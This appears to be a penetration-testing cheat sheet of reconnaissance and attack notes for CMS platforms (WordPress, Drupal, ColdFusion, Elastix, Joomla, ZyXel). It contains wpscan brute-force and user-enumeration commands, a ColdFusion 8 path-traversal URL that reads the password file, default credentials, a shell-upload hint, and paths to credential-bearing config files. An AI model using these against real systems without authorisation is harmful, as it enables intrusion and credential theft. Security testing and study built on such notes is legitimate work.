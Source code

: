 # CMS

* Enumerate version and few other details
* If don't found the version, download the source code and grep the version. We might found the page that contains the version then.
* Google their vulnerability
* Default password login page
* Guessing password login page?

## Wordpress

### wpscan

```
wpscan --url $ip/wp/
```

**Bruteforce login page**

```
wpscan --url <ip> --username <name> --wordlist <path to list>
```

```
wpscan --url yourwebsite.com -passwords file/path/passwords.txt
```

**Random agent  (**If your site runs behind a firewall, you can try the same command with an additional option added to the end:)

```
wpscan --url yourwebsite.com --random-user-agent
```

### User Enumeration with WPscan

```
Wpscan flags 
e/--enumerate = for enumeration 
u = users 
ap = all plugins 
```

```
wpscan --url yourwebsite.com -e u
```

```
wpscan --url yourwebsite.com/wordpress -e u
```

### User Enumeration and all plugins scan&#x20;

```
wpscan --url <websitename>/wordpress --enumerate u , ap
```

### Zoom.py - enumerate W

### wordpress users&#x20;

```
python zoom.py -u <wordpress site>
```

### Admin page&#x20;

```
/wp-admin
/wp-login
```

### Configuration files

```
setup-config.php
wp-config.php
```

### Enumerate users

```
/?author=1, /?author=2,
```

## Drupal

### Droopescan

```
droopescan scan drupal -u http://example.org/ -t 32
```

### Find version

```
/CHANGELOG.txt
```

## Adobe cold fusion

### Determine version

```
/CFIDE/adminapi/base.cfc?wsdl
```

### Version 8 vulnerability&#x20;

* fckeditor
* LFI :-&#x20;
* `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

## Elastix

* Google the vulnerabitlities
* default login are `admin:admin` at `/vtigercrm/`
* able to upload shell in profile-photo

## Joomla

* Admin page - `/administrator`
* Configuration files -&#x20;

```
configuration.php
diagnostics.php
joomla.inc.php
config.inc.php
```

## Mambo

#### Config files

```
configuration.php
config.inc.php  
```

## ZyXel

**Configuration files**

```
/WAN.html (contains PPPoE ISP password) 
/WLAN_General.html and /WLAN.html (contains WEP key) 
/rpDyDNS.html (contains DDNS credentials) 
/Firewall_DefPolicy.html (Firewall) 
/CF_Keyword.html (Content Filter) 
/RemMagWWW.html (Remote MGMT) 
/rpSysAdmin.html (System) 
/LAN_IP.html (LAN) 
/NAT_General.html (NAT) 
/ViewLog.html (Logs) 
/rpFWUpload.html (Tools) 
/DiagGeneral.html (Diagnostic) 
/RemMagSNMP.html (SNMP Passwords) 
/LAN_ClientList.html (Current DHCP Leases) 

# Config Backups
/RestoreCfg.html
/BackupCfg.html 
```
